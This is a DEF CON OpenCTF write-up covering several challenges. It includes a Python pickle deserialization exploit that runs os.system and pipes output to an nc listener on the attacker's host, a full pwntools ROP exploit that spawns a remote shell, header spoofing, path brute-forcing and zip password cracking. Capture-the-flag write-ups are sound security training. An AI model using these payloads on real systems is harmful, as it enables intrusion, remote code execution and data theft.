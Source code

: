 # OpenCTF

This year Shell Collecting Club showed up late, but strong to the DEF CON OpenCTF. We are under a time crunch for getting in these writeups. They will be revised a bit better later on. So we apologize for the brevity and lack of screen shots for the time being :)


## Solenya

### Web 300

When navigating to the supplied URL for the challenge, we were greeted with a really basic page that just had a JPG of Pickle Rick from Rick and Morty. There weren't any links that I can recall, so I tried to begin enumerating the server by hand to see if I could derive more information about the service.

I tried to go to *domain*/index.html to see what that would yield.

When doing so, I was greeted with a Django error page (Debug was set to True in the `setting.py` file!) that notified me that I had tried to navigate to a route that wasn't defined in `urls.py`. This error page also lets you know what the defined routes are.

There were 2 routes in particular that were interesting. The first was `/fingerprint/` and the second was `/wubbalubbadubdub/`.

In `/fingerprint/`, we were delivered a different Ricky and Morty image.

However, in `/wubbalubbadubdub/`, we were presented with a standard Django login page.

After trying for a bit to figure out what the creds might be, this attempt was abandoned and I started looking more at the web requests happening in the background.

I noticed a call to `/fingerprint/` with a large amount of POST data. This POST data was the output of javascript fingerprinting script that was being ran through `pickle.dumps` prior to being sent over, along with a `Token` HTTP header with the value `SSdtIFBpY2tsZSBSaWNrIQ==` (b64decode -> "I'm Pickle Rick!"). 

There were a bunch of references to Pickle Rick in this website, and python pickling is known to be dangerous. Therefore, it made sense that we could try to use this for our attack.

We assumed that the pickled POST data (literally called `pickle_data`), was unpickled on the `/fingerprint/` view.

So now, it was time to see if that worked.

I started a nc listener on my laptop (`nc -l -p 42069`) and sent some pickled data that would call `os.system` with some data piped into `nc`.

Due to the rush we were under, I didn't script up the entire payload delivery, but instead set a breakpoint in the JS debugger in the brower before the POST request was sent, and then modified the `pickle_data` variable to contain my generated payload.

Here was the test:

```import requests
import cPickle
import subprocess
import os

class Exploit(object):
    def __reduce__(self):
        return (os.system, ('{} | nc {} {}'.format('ls', '172.31.127.66', '42069'),),)

print cPickle.dumps(Exploit())
```

When I sent this data, I received the output of `ls` in my `nc` listener! We had RCE!

Now I just massaged the payload a bit, finding the flag in a file on the server.

You can read more about the badness of Python pickle [here](https://blog.nelhage.com/2011/03/exploiting-pickle/)


## babys_first_rop

### pwn

This was a pretty simple ROP challenge. 

From main, the binary calls a function that loads a bunch of data into a place labeled `gadgets` then calls a function called `vuln`.

This `vuln` function does a `read()` of 0x100 bytes into a buffer of size `0x50` creating an obvious overflow.

The stack was not executable.

The binary natively gave us a `pop rdi` gadget and a `pop rsi, r15` gadget.

Our method was to call `read()` again on the section of memory called `gadgets` (since it was executable), and load some shellcode there, finally returning to it.

The only thing we needed was a `pop rdx` gadget, which we were able to find using this:

```gdb-peda$ ropsearch "pop rdx" 
Searching for ROP gadget: 'pop rdx' in: binary ranges
0x0060118f : (b'5ac3')    pop rdx; ret
```

our final exploit is below:

```from pwn import *

#p = process(['./babys_first_rop'])
p = remote('172.31.2.62', 47802)
context.arch = 'amd64'

def pad_payload(payload, size):
    n = size - len(payload)
    payload += 'A' * n
    return payload

if __name__ == '__main__':
    ADDR_READ = 0x4004d0
    SHELLCODE = asm(shellcraft.amd64.linux.sh())
    print len(SHELLCODE)
    payload = 'A' * 0x50
    payload += 'whocares'
    payload += p64(0x400793) # pop rdi
    payload += p64(0)
    payload += p64(0x400791) # pop rsi, pop r15
    payload += p64(0x601080) # buf
    payload += 'AAAAAAAA'    # who cares
    payload += p64(0x60118f) # pop rdx
    payload += p64(0x64)     # shellcode len
    payload += p64(ADDR_READ)
    payload += p64(0x601080)
    p.sendline(pad_payload(payload, 0xff))
    p.sendline(SHELLCODE)
    p.interactive()
```


## Forbidden Folly

### level 1

When navigating to the webpage, we get a `403 Forbidden` error.

Knowing that this was a 50 point challenge, we knew the solution would be simple.

One of the first things we did was to set the `X-Forwarded-For` header with the value of `127.0.0.1` (localhost), and tried the get request again.

The flag was in an HTML comment.


### level 2

The HTML page returned from level 1 was some type of monitoring console of servers. But this string was interesting:

```#Tim placed a web terminal on the system for easy access, the location of that has been emailed to everyone who has access to this portal.
```

Knowing that the domains listed in the monitoring panel were actual domains, we didn't try to attack those.

After spending way too much time analyzing the page, we decided to run, sigh, a brute force attack to enumerate some of the html paths on the server.

After some time, one finally hit: `/debug`.

When going there, there was an open directory listing with a file called `/debug/secret.txt`. This file contained the flag, and an email containing SSH creds for level 3.


### level 3

When sshing onto the server with the creds from level 2, we found a `secretpassword.zip` file in the home folder.

This zipfile was password protected.

We recovered the file, ran it though `zip2john` and finally `john the ripper`. After some time, the password was broken.

The password? `poopstinks`. Nice.

The contents of the zip file were jsut another password, presumably for another ssh user on the box. Listing the `/home/` directory, we saw a user named `hopper`.

At this point, its important to note that our user, `chad`, was not a sudoer.

When sshing onto the server with the user `hopper` and the password recovered from the zip, the first thing we tried was `sudo su`, and that worked. 

The flag was in the `/root` directory.